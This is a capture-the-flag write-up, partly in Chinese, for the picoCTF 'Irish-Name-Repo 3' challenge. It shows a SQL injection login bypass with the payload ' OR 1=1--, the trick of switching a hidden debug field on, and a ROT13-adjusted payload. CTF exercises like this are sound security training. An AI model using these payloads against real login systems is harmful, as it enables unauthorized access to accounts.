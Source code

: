 # Irish-Name-Repo 3

## Information

### Description

There is a secure website running at https://jupiter.challenges.picoctf.org/problem/40742/ (link) or http://jupiter.challenges.picoctf.org:40742. Try to see if you can login as admin!

### Hints

1. Seems like the password is encrypted.

## Solution

- [SQL Injection](https://en.wikipedia.org/wiki/SQL_injection)

- SQL query
    ```sql
    "SELECT * FROM customers WHERE name =' Username ' AND password = ' Password '
    ```
1. ---Password:`' OR 1=1--`---
    - 因為 Password 是會被加密的所以不完全適用。
    ```sql
    "SELECT * FROM customers WHERE name= ' Username ' AND passwors  = '' OR 1=1--'"
    ```

2. 注意到原始碼中有下面這串。
    ```html
    <input type="hidden" name="debug" value="0">
    ```

3. 嘗試將 `value` 改成 1。
    ```html
    <input type="hidden" name="debug" value="1">
    ```

4. 再嘗試使用一次 Password 的 payload，輸出這段訊息。
    ```
    password: ' OR 1=1--
    SQL query: SELECT * FROM admin where password = '' BE 1=1--'
    ```

5. 似乎被進行 ROT13 加密，嘗試輸入以下將輸入反轉。
    ```
    ' BE 1=1--
    ```